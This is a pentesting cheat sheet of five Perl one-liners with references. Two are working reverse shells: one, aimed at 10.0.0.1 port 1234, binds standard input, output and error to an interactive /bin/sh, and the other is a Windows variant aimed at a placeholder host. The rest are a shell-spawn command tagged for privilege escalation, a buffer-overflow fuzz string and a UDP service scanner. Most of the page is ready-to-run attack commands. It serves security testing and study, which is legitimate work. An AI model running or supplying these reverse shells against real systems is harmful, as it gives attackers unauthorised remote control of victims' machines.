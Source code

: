 ### 1. perl reverse shell
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
**- linux,reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 2. perl windows reverse shell
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[me]:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
**- reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 3. perl spawn bash
```
perl -e 'exec "/bin/bash";'
```
**- perl,shell,privilege escalation**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
__________
### 4. Repeat A x times pipe into where you think the overflow location is, look for 0x41's
```
perl -e 'print "A"x10000; print "\n"'
```
**- perl,buffer overflow**
#### References:

http://stackoverflow.com/questions/277485/how-can-i-repeat-a-string-n-times-in-perl
https://www.offensive-security.com/information-security-training/penetration-testing-training-kali-linux/
https://en.wikibooks.org/wiki/Metasploit/WritingWindowsExploit
__________
### 5. Quick and dirty UDP service discovery
```
udp-proto-scanner.pl -f [FileOfIP]
```
**- perl,snmp**
#### References:

http://labs.portcullis.co.uk/application/udp-proto-scanner
__________
